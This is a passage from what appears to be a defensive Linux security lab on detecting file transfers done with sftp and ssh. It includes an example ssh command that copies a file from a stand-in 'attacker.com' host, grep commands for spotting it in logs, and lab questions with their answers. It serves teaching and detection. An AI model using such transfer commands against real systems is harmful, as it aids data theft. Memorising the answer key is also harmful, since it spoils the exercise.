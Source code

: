 For detection; sftp usage with the "get" parameter should be  monitored closely. In addition, it should be questioned whether the  destination (IP/domain) to which the file is transferred is a known  destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “sftp”   - Searchable from history on Linux system.  # history | grep “sftp”  or  # cat ~/.bash_history | grep “sftp”   - It can be searched from "sftp" process create or network connection events in EDR/XDR logs.

### **# ssh command**

The ssh application is basically used to connect to a remote system  or run commands on a remote system. The ability to run commands on the  remote system can be used for operations such as "File Download" or  "File Upload". ssh command displays the file to be downloaded with the  "cat" command after being connected to the remote system as you can see  in the example below. Then, utilizing the ">" function, it prints the data to a local file without printing it on the screen. This is how  the "File Download" operation is performed with the ssh command.

```
# HOST=user@attacker.com  # RPATH=file_to_get  # LPATH=file_to_save  # ssh $HOST "cat $RPATH" > $LPATH
```

For detection; In the continuation of the ssh command, the usage of  the ">" operator of the command line or the use cases of file viewing tools such as "cat, tac" are monitored closely.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “ssh”   - Searchable from history on Linux system.  # history | grep “ssh”  or  # cat ~/.bash_history | grep “ssh”   - It can be searched from "ssh" process create or network connection events in EDR/XDR logs.

### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - Which file was downloaded from the target system using “T1070.003 -  Indicator Removal: Clear Command History” Mitre ATT&CK technique?

> **Answer:** remote_hist.txt

2 - Which file was deleted after being downloaded from the target system  using “T1070.003 - Indicator Removal: Clear Command History” Mitre  ATT&CK technique?

> **Answer:** .bash_history

3 - Which application was  utilized to download “linux.iso” file which was downloaded using the  “T1105 - Ingress Tool Transfer” Mitre ATT&CK technique?

> **Answer:** wget

4 - What is the location (/directory/file) of the file downloaded with the wget application on the operating system?

> **Answer:** /tmp/linux.iso

5 - In which system was the  command history deleted using the “T1070.003 - Indicator Removal: Clear  Command History” Mitre ATT&CK technique?
